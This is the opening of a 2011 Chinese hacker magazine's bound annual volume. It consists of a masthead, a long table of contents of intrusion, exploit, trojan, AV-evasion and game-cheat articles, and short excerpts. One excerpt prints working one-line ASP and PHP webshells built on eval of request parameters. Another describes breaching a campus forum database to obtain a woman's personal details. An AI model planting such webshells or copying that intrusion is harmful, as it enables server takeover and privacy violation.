# 黑客X档案合订本2011年（下）第一部分

---

## 《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程

### 2011《黑客X档案》合订本下卷

WWW.HACKX.CC  WWW.HACKX.CC  WWW.HACKX.CC

## QQ宝典

- 谁说Linux下QQ是废柴？
- VB+JMAIL控件实现QQ在线短信提醒
- 非超Q打造QQ全天在线
- 红钻黑钻免费拿
- 不是绿化的绿化——记QQ保姆软件绿化过程

## 其他精彩导读

- cmdshell
- 木马从构思到实现
- C++源码免杀实例分析
- 利用lpk.dll提权
- 深入逆向分析
- shellcode小试
- 热血圣战外挂制作
- QQ网页嗅控技术
- C++源码免杀实例
- VB制作信息嗅探器
- 打造自己的字典生成器
- 告别DNF，流星陨落的背后
- 再战SyserWin32Debugger
- VB攻破软键盘的防护
- Access密码破解软件的爆破
- VB流氓广告插件编程分析
- 汇编环境下的大数运算
- 打造自己的语音识别控制系统
- 简单抓包工具的实现

### 黑客研究院

- MD5和SHA1散列计算程序的制作
- 对一个未知病毒行为的分析
- PHP-ACMS 4.0 0day
- ASP.NET防XSS注入

## 菜鸟学堂

- 用九行代码，隐藏你的一生秘密
- 巧用捆绑术隐藏机密文件
- 三人挖坑，看我怎么攻破你
- 活用事件触发器，提高系统安全性
- 填盘小命令fsutil

## 软马记

- U盘你轻轻地来，但请留下“云彩”
- 菜鸟也能运筹帷幄之测爱工具自打造
- 完美账号批量获取与保护
- 病毒分析你也行
- 菜鸟浅谈Ring3下键盘输入信息的获取

## 黑客X档案2011合订本 下卷

# 《黑客X档案》2011年合订本（下卷）

- 出品人：冯硕
- 主编：Ace
- 编辑部主任：周晓峰
- 编辑部：呆呆虫 / 虫虫 / 筱娜
- 编辑部：黄色潜水艇 / L炽の疯
- 特约编辑：炫风舞 / txcbg / 圣智
- 特约编辑：沧海浮萍 / Hx小龙 / suno
- 光盘部：格式化
- 设计：阮全勇
- 排版：QuanLu
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币35.00元（光盘+图书）

**声明：**书中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

## CONTENT

### 黑马专题

- 2011.07 轻松设置下载桌面——个性简洁桌面！……9
- 2011.07 用九行代码，隐藏你的一生秘密……10
- 2011.07 制作打包图标的简单方法……11
- 2011.08/09 撤离3389肉鸡的“画蛇添足”之作……12
- 2011.08/09 对某U盘登录锁的注册算法分析……13
- 2011.08/09 简简单单解密批处理乱码……15
- 2011.08/09 巧用捆绑术隐藏机密文件……17
- 2011.08/09 轻松实现最安全的屏幕共享服务……18
- 2011.08/09 三人挖坑，看我怎么攻破你！……23
- 2011.10 木马牵引，下载！下载！——VB实现简易下载者……26
- 2011.10 打造“黑客帝国”式CMD……28
- 2011.10 当PING命令吃了“闭门羹”之后……28
- 2011.10 为文件传输开辟绝密“通道”……29
- 2011.11 活用事件触发器，提高系统安全性……32
- 2011.11 清除垃圾服务，让系统跑得更顺畅……33
- 2011.11 填盘小命令fsutil……34
- 2011.12 菜鸟黑客成长之“借蛋生技”法……35
- 2011.12 扩展圣地玩儿“障眼法”……36
- 2011.12 那些高手“不屑于”说的……37
- 2011.12 端口，扫！扫！扫！——VB简单编写端口扫描器……39

### QQ专辑

- 2011.07 QQ影音——3D视觉享受……42
- 2011.07 非QQ绿钻照样下载高品质音乐……43
- 2011.08/09 谁说Linux下QQ是废柴？……44
- 2011.08/09 教小菜简单打造自己的QQ空间跨站漏洞……45
- 2011.10 VB+JMAIL控件实现QQ在线短信提醒……47
- 2011.12 QQ空间免费匹配正版背景音乐……49
- 2011.12 不是绿化的绿化——记QQ保姆软件绿化过程……50
- 2011.12 非超Q打造QQ全天在线……51
- 2011.12 五年黑钻免费拿……53

### 网吧风云

- 2011.07 利用Wireshark看局域网安全……54
- 2011.07 一个密码带来的灾难……55

## 傻瓜黑客

- 2011.07 短地址——一个巨大的陷阱……59
- 2011.07 剑走偏锋另类玩转NOKIA手机系统……61
- 2011.07 诺基亚刷机大法……62
- 2011.07 小菜也来傻瓜化破解无线密码……65

## 目录

- 2011.07 从账号安全到隐写术……68
- 2011.08/09 揭秘猫咪大黑客……70
- 2011.08/09 XP下登录SYSTEM账户……70
- 2011.08/09 U盘你轻轻地来，但请留下“云彩”……71
- 2011.08/09 释放手机，电脑上的安全攻略……72
- 2011.08/09 注入利器之“四人帮”……76
- 2011.08/09 用WinHex来修改《仙剑奇侠传4》……77
- 2011.08/09 菜鸟浅谈Ring3下键盘输入信息的获取……79
- 2011.08/09 修改PE文件隐藏IIS6的banner……81
- 2011.08/09 旁门左道——免杀小技巧总结……83
- 2011.08/09 用Chntpw清除Windows系统账号的密码……84
- 2011.08/09 菜鸟查端口的“集结号”……85
- 2011.08/09 让VC来实现手机控制电脑自动关机……87
- 2011.10 菜鸟小试“浙雪”爆破WebShell……90
- 2011.10 菜鸟也能造机器之刷Q工具自打造……91
- 2011.10 灰色按钮的秘密，VB打造灰色按钮克星……96
- 2011.10 聊么彻底隐藏系统——I tell you……98
- 2011.11 智能ABC的万能退出漏洞再现网吧免费上网……101
- 2011.11 paper3000全球报纸阅读软件破解之道……104
- 2011.11 菜鸟浅谈“一句话木马”……106
- 2011.11 菜鸟也来破解NOD32 4.0……108
- 2011.11 PHP小马的“无域”……111
- 2011.11 今天你爆邮箱了么？！……113
- 2011.11 命令行下的神器——cURL……114
- 2011.11 Windows 2008下文件权限轻松改……118
- 2011.11 获得系统权限后还在加用户，你out了……120
- 2011.11 对盗号者的一次恶搞……122
- 2011.12 当“猜解列名”失败时……123
- 2011.12 巧用“照妖镜”，追捕恶意“来客”……124
- 2011.12 小菜也来写PHP小马……125
- 2011.12 易语言实现简易连点器——挤服、刷道具、抢礼包！全能！……128
- 2011.12 完美账号批量获取与保护……133
- 2011.12 在被“取证”之前……134
- 2011.12 使用HTTP FUZZER暴力破解密码……136

### 驻站人物采访栏目

- 2011.07 Fooying：我的编程世界……140

### 侠隐倾述

- 2011.07 寻情记（三）……143
- 2011.07 花落无痕……146
- 2011.08/09 寻情记（四）……150
- 2011.08/09 就这样去了……156
- 2011.08/09 梦境……159
- 2011.11 寻情记（五）……162
- 2011.12 三个人的青梅竹马……165

## CONTENT

### 入侵篇

- 2011.07 Discuz! X1.0—X1.5盲注漏洞&Get Shell Exp……169
- 2011.07 Linux下提权常用小命令……173
- 2011.07 倒在万能密码下的连锁酒店……176
- 2011.07 稻草人企业站管理系统宽字节注入漏洞……177
- 2011.07 检测一地方门户……180
- 2011.07 另类蹊径轻取某大学主站最高权限……183
- 2011.07 推倒某安全竞赛脚本关BOSS之图片也来SQL注入……185
- 2011.08/09 关于“踩点”的那些事儿……186
- 2011.08/09 114啦网址导航留言本注入0day……188
- 2011.08/09 科讯6.x—7.06多个SQL注射漏洞从简介到利用……192
- 2011.08/09 漏洞来了——DEDECMS多个版本直接Get Shell漏洞……196
- 2011.08/09 XX中心，我下了你的库！……199
- 2011.08/09 跳跃的思路——记安全检测某网站……202
- 2011.08/09 歪打正着，被放倒的政府网站……205
- 2011.08/09 永不止步学院再入侵……206
- 2011.10 Nginx空字节可执行代码漏洞菜鸟级体验……210
- 2011.10 简单分析XYCMS律师事务所建站系统v1.0的安全性……214
- 2011.10 锲而不舍，终有小成——记一次不成熟的尝试入侵检测……218
- 2011.11 SDCMS 1.3 最新漏洞……223
- 2011.11 记一次报复性的人侵……227
- 2011.11 记一次不同寻常的“跨站”……233
- 2011.11 一波三折——对本地安全公司的检测……237
- 2011.11 跨库查询+stm文件助我拿下某站shell……241
- 2011.11 实战突破ASP过滤系统使用万能密码入侵网站……245
- 2011.11 众里寻她千百度——一场暗恋引发的FreeBSD虚拟主机提权……247
- 2011.11 左手代码，右手入侵……250
- 2011.12 Tipask问答系统1.4上传漏洞……253
- 2011.12 要学黑，须厚积！——由友情检测DELL某分站所想到的……256
- 2011.12 PageAdmin Cms v2.0 getshell 0day……259
- 2011.12 破灭由心——小记西电攻防大赛破解体验……262
- 2011.12 意外轻取某VPS主机……265

### 安全第一

- 2011.07 浅谈网络游戏交易机器人……267
- 2011.07 这样加密，足矣！……268
- 2011.07 为终端服务巧设安全防线……270
- 2011.08/09 如何发现自己成为别人肉鸡——看远控发展趋势……274
- 2011.11 为磁盘打支“消毒针”……275
- 2011.12 浅谈SIM安全应用及防范……280
- 2011.12 为加密文件巧配“绝密钥匙”……283

### 黑客研究院

- 2011.08/09 CSRF小计……284
- 2011.08/09 对一个未知病毒行为的分析（上）……285
- 2011.08/09 PHPACMS 4.0 0day……287

## 目录

- 2011.08/09 ASP.NET防XSS注入..........................288
- 2011.10 MD5和SHA1散列计算程序的制作......................292
- 2011.10 中华黑豹病毒样本分析..............................295

### 网页攻防

- 2011.07 PHP实战攻略（1）——初会（第一个PHP页面）...........299
- 2011.07 浅谈下载者的简单实现..............................301
- 2011.07 小小地实现一个远控（一）..........................303
- 2011.08/09 PE文件格式详解................................305
- 2011.08/09 PHP实战攻略（2）——渐入（了解基本语法）........309
- 2011.08/09 PHP实战攻略（3）——传递（网页间的数据传递）....312
- 2011.08/09 教大家DIY自己的多重启动光盘....................313
- 2011.08/09 浅谈盗Q的原理..................................314
- 2011.08/09 小小地实现一个远程（2）——服务端架构.............315
- 2011.08/09 小小地实现一个远程（3）.........................317
- 2011.10 PHP实战攻略（4）——数据库篇.......................319
- 2011.10 小小地实现一个远程（4）——一些小问题的修正........322
- 2011.10 DIY我们自己的EXE文件信息读取器（上）............324
- 2011.10 SQL入门第一课....................................327
- 2011.11 PHP实战攻略（5）——SQL篇..........................329
- 2011.11 小小地实现一个远程（5）——注册表的管理............330
- 2011.11 DIY我们自己的EXE文件信息读取器（下）............334
- 2011.11 走进C++（1）......................................335
- 2011.12 PHP实战攻略（6）——SQL篇..........................338
- 2011.12 小小地实现一个远程（6）——注册表的管理............339
- 2011.12 走进C++（2）......................................341
- 2011.12 SQL第二课........................................343

### 游戏园

- 2011.07 破解版补丁连连看................................345
- 2011.08/09 横刀立马，过关斩将——记一次CrackMe破解........349
- 2011.08/09 突破一切障碍，完全调戏软件加弹窗工具7.0........355
- 2011.10 菜鸟DNF外挂破解记................................359
- 2011.10 分析VMP的神器——fkvmp.............................362
- 2011.12 防毒新视角——巧改文件关联防御病毒侵袭............364
- 2011.12 跟我一起编写PHP盲注EXP...........................366

### 黑客编程

- 2011.07 RING3下通过修改中断描述表来监控键盘输入.........370
- 2011.07 打狗记——移动设备校验软件破解....................373
- 2011.08/09 Access密码破解软件的爆破......................376
- 2011.08/09 shellcode小试..................................378
- 2011.08/09 VC++源码免杀实例分析.........................381
- 2011.08/09 利用lpk.dll提权...............................383
- 2011.08/09 用VB SocketAPI开发自己的反弹型Cmdshell.......389
- 2011.08/09 反“灰色按钮克星”软件的程序设计...............392
- 2011.08/09 使用Cheat Engine制作游戏辅助工具..............394
- 2011.08/09 深入逆向分析....................................396
- 2011.10 再战SyserWin32Debugger............................398
- 2011.10 热血圣战外挂制作..................................402
- 2011.10 用VB制作信息嗅探器................................405
- 2011.10 VC++源码免杀实例..................................408
- 2011.10 编程零起步之两行源码实现加密配置读写..............409
- 2011.10 打造自己的字典生成器..............................411
- 2011.10 告别DNF，流星陨落的背后..........................413
- 2011.11 飞秋任意授权码等级设置工具编写过程................420
- 2011.11 木马从构思到实现..................................423
- 2011.11 用VB攻破软键盘的防护.............................426
- 2011.12 BHO网页监控技术..................................429
- 2011.12 VB流氓广告插件编程分析............................432
- 2011.12 汇编环境下的大数运算..............................435
- 2011.12 打造自己的语音识别控制系统........................436
- 2011.12 简单抓包工具的实现................................440

### 主题乐园

- 2011.07 破解零起步（七）逆向分析基础......................443
- 2011.08/09 黑客X档案第二版黑客游戏的总结.................446
- 2011.08/09 破解零起步（八）——PE文件格式..................452
- 2011.08/09 破解零起步（九）——认识壳......................455
- 2011.08/09 菜鸟也要学溢出（四）——堆溢出利用..............460
- 2011.10 破解零起步（十）——常见脱壳方法..................465
- 2011.11 破解零起步（十一）——脱壳后处理..................469
- 2011.11 免杀总论..........................................472
- 2011.12 破解零起步（十二）认识断点（上）.................474

## 光怪杂引

### 用 WinHex 来隐蔽地修改游戏存档

最近在玩《仙剑奇侠传4》，相信这么经典的国产单机游戏不少人都玩过吧。虽然不是什么新游戏，但我是在最近高考完才有时间玩的。这游戏画面效果还算可以，剧情挺感人的。玩的过程觉得打怪升级太慢了，于是就萌生了修改游戏的念头。说到修改游戏，大家一定会马上想到“金山游侠”吧，但我这里并不使用这款软件，而是使用 WinHex 来修改游戏存档的方法。

### 菜鸟浅谈“一句话木马”技术

很早以前就听说过但没真正见识过“一句话木马”。虽然一直以来也都是在走“小马传大马”的经典拿 WebShell 套路，但总觉得不对“一句话木马”研究把玩儿一番实在是对不住菜鸟 Hack 的“自由、平等、随意、突破”的精神。于是便有了这篇浅谈，与大家分享。

```asp
<%eval request("123456")%>
<%execute request("123456")%>
```

```php
<?php eval($_POST[123456]);?>
```

“一句话木马”顾名思义，就是内容只有一句话的木马。一般特指 asp 或 php 之类网页木马，通常包含服务端与客户端两部分：前者负责放置在目标网站，后者一般是本地调用运行的小型客户端文件。

### 众里寻她千百度之一场邂逅引发的 FreeBSD 虚拟主机提权

在一次公选课上，偶然注意到一位非常漂亮的 MM。正想着如何认识时，老师开始点名，我就准备记住她名字。等点到“杨娜”时，那个 MM 答了声到，就这样我知道了 MM 的大名……

就这样我知道了 MM 的大名。直接上去搭讪未免太唐突，搞不好还容易引起反感，还是采取迂回战术比较好一些。我们学校有一个论坛，规模还是比较大的，学生基本都在上面注册了。最重要的一点是论坛采取实名制管理的，只要能够拿到论坛数据库，我不就能轻而易举拿到 MM 的信息了吗？想到这，我得意地笑了……

### 巧用“绿软监控”追捕隐藏“幽灵”

时下各种病毒、木马、黑客程序、蠕虫等恶意程序呈泛滥趋势，威胁着 Windows 系统安全。恶意程序潜入系统后常会千方百计隐藏自己，再伺机兴风作浪。因此清除潜伏恶意程序的前提是准确发现其藏身之处。文章介绍通过进程/服务变化监控与比对的方式，快速找出隐藏较深的“幽灵”木马。

### MD5 和 SHA1 散列批量处理器的制作

随着 MD5 弱点的发现，使用 SHA1 散列算法的网站和程序也越来越多。以前常用的 WinMD5、WinMD5Sum 一类工具逐渐不够用，于是决定自己做一个可同时支持字符串与文件的 MD5/SHA1 批量计算和比较工具。开发工具采用 Lazarus（Free Pascal），跨平台支持 Windows、Linux、WinCE、Mac OS，并开始支持 Android。

### 短地址，一个 E 时代的陷阱

随着微博流行，越来越多门户网站都加入了微博功能。微博传播速度快，短地址也随之普及，它把很长的网址缩短，方便在 140 字左右的文本里传播。但问题在于：用户无法从短地址直接判断真实目标页面，容易被用于挂马、钓鱼，甚至被利用发起 DDoS 等攻击。

### 注入扫描之“明小子”

“注入”常指通过对数据库访问参数的探测，推断敏感信息长度、范围并逐步逼近结果。多年里不少人把注入扫描工具锁定在“啊D”和“明小子”。文章认为工具只是辅助：其内置扫描信息库（mdb）对结果影响极大，很多“发现漏洞”其实来自规则库命中。结论是：工具是机械的，人要保持判断力。

## 轻松设置 + 网页桌面 = 个性潮流桌面！

黑色倒影

如今大家的桌面图片千奇百怪，可有谁想过把网站搬上来呢？今天就来教大家！

首先选个你喜欢的网站！这里就用百度吧！

- 1. 在桌面点右键“属性”→“桌面”→“自定义”（如图1）。之后选 Web，点击“新建”，输入你想要的网址（如图2）点击确定，之后就是这个效果（如图3）。







- 2. 鼠标移动到任务栏，右键“属性”，勾选上“自动隐藏任务栏”。

- 3. 桌面上右键“排列图标”→“显示桌面图标”点击一下，把上面的勾去掉！如图4，这个时候桌面就什么都没了，只剩下刚刚添加的 Web 项目。我们把鼠标移动上去，如图5，点击第一个最大号按钮！呵呵，现在桌面就成了百度！需要搜索什么直接在桌面输入。





看到这里也许就有人要问啦！这样子是个性了不少，上网搜索也方便了许多，但是我要运行软件和找电脑里面的东西那就太麻烦了！……

嘿嘿，下面就请出《下页桌面》。一款智能搜索软件！只要输入文件名即可快速运行，如图6。支持中英文搜索和模糊搜索。除了能搜索电脑上的应用程序，还能搜索文档、视频、音乐、图片等。更多的操作需要大家自己去琢磨了。

按 Alt+X 即可“隐藏/显示”软件！



图6

设置好桌面，运行下页桌面！好好地在朋友面前炫耀一把吧！

## 用九行代码，隐藏你的一个盘符

我爱红尘

提起隐私保护，现在网络上流传的大致可以分为两大类：一类是很多人都常用的加密软件，对自己的“宝贝儿”们加密下，只要自己不说出口令，别人永远也别想打开。

再说说第二类，就是建一个虚拟盘符。这种方法是使用下载好的软件，用软件建一个可以隐藏的盘符，把自己的“宝贝儿”放进去后隐藏起来，哪天想起来了再把盘符显示出来。

